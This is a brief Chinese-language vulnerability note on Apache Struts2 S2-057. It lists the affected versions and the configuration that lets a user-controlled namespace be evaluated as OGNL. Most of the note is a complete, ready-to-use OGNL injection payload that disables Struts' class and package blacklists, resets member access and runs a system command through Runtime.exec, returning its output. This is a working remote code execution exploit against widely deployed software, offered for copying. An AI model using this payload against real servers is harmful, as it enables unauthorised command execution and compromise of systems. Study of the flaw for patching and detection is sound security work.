[参考](https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg)

影响版本：2.3 - 2.3.34， 2.5 - 2.5.16

如果 `alwaysSelectFullNamespace` 设置为 `true` 且 `action` 中未设置 `namespace` 或直接使用 `*` ，那么此时的 `namespace` 由用户控制，并作为 OGNL 表达式解析。

```java
${(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```


